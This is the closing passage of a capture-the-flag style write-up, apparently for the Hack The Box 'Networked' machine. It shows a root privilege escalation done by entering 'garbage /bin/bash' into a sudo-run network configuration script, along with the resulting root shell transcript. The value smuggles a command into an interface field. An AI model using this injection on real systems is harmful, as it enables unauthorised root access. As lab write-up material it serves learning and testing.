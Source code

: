 To be honest, I discovered the method to get root through fuzzing and trying different payloads.

EDIT: [Found the explanation!](https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f) (source: [0xRick’s blog](https://0xrick.github.io/hack-the-box/networked/))

{% highlight bash %}
[guly@networked .ssh]$ sudo /usr/local/sbin/changename.sh
sudo /usr/local/sbin/changename.sh
interface NAME:
garbage /bin/bash
garbage /bin/bash
interface PROXY_METHOD:
garbage /bin/bash
garbage /bin/bash
interface BROWSER_ONLY:
garbage /bin/bash
garbage /bin/bash
interface BOOTPROTO:
garbage /bin/bash
garbage /bin/bash
[root@networked network-scripts]#

{% endhighlight %}

Note that the input is doubled because it was sent via `nc`, not because I entered it 2 times.

{% highlight bash %}
[root@networked network-scripts]# wc /root/root.txt
wc /root/root.txt
 1  1 33 /root/root.txt
[root@networked network-scripts]#

{% endhighlight %}

The root proof starts with `0a` 😉

If you liked this post and want to support me, please [follow me on Twitter](https://twitter.com/yakuh1t0). 🙂

Until next time, hack the world.

yakuhito, over.

